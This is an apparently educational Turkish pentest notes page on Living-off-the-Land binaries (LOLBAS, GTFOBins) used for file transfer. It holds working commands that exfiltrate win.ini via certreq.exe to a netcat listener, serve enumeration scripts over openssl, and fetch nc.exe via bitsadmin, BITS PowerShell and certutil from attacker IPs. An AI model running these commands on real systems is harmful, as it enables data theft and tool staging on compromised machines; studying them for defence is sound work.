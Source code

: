```yaml
---
glightbox: true
icon: material/circle-small
---
```


# Living off The Land

LOLBins (Living Off The Land Binaries) terimi, bir saldırganın, orijinal amacının ötesinde eylemler gerçekleştirmek için kullanabileceği ikili dosyaları ifade etmek için kullanılır. Aşağıda verilen siteler bahsedilen ikili dosyalar hakkında bilgi toplamaktadır:

1. [LOLBAS](https://lolbas-project.github.io)
2. [GTFOBins](https://gtfobins.github.io/)

## Using the LOLBAS and GTFOBins Project

### LOLBAS

LOLBAS (Living Off The Land Binaries, Scripts and Libraries) sitesinde indirme ve yükleme işlevlerini aramak için `/download` ve `/upload` filtrelerini kullanabiliriz.

Örnek olarak [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) aracını ele alalım. Netcat aracını kullanarak gelen trafiği, saldırı makinemizdeki bir port üzerinden dinlememiz ve ardından bir dosya yüklemek için `CertReq.exe` aracını çalıştırmamız gerekiyor:

```batch
certreq.exe -Post -config http://192.168.49.128 c:\windows\win.ini
```

Bu işlem, dosyayı Netcat oturumumuza gönderecektir:

```bash
sudo nc -lvnp 80
```

```text title="Output"
listening on [any] 80 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

Eğer `CertReq.exe` aracını çalıştırırken hata alırsanız kullandığınız sürüm POST parametresini içermiyor olabilir. Güncel sürümü [buradan](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) indirip tekrar deneyebilirsiniz.

### GTFOBins

LOLBAS sitesinde indirme ve yükleme işlevlerini aramak için `+file download` ve `+file upload` filtrelerini kullanabiliriz.

Örnek olarak [OpenSSL](https://www.openssl.org/) aracını ele alalım. Öncelikle bir sertifika oluşturmamız gerekiyor:

```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

Ardından sunucuyu başlatıyoruz:

```bash
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Artık ele geçirilmiş bilgisayardan dosyayı indirebiliriz:

```bash
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Other Common Living off the Land Tools

### Bitsadmin Download function

BITS ([Background Intelligent Transfer Service](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal)), HTTP sitelerinden ve SMB paylaşımlarından dosya indirmek için kullanılabilir. Bu servis, kullanıcının ön plandaki çalışması üzerindeki etkiyi en aza indirmek için bilgisayar ve ağ kullanımını akıllıca kontrol eder:

```batch
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell, BITS ile etkileşime olanak tanır, dosya indirme ve yükleme işlemleri gerçekleştirebilir, kimlik bilgilerini destekler ve belirtilen proxy sunucularını kullanabilir:

```powershell
Import-Module bitstransfer
Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

### Certutil

Certutil aracı dosyaları indirmek için kullanılabilir. Tüm Windows sürümlerinde mevcuttur ve Windows için popüler bir dosya aktarım tekniğidir. Ancak AMSI (Antimalware Scan Interface), bu araçla yapılan kötü niyetli kullanımları algılamaktadır:

```batch
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```
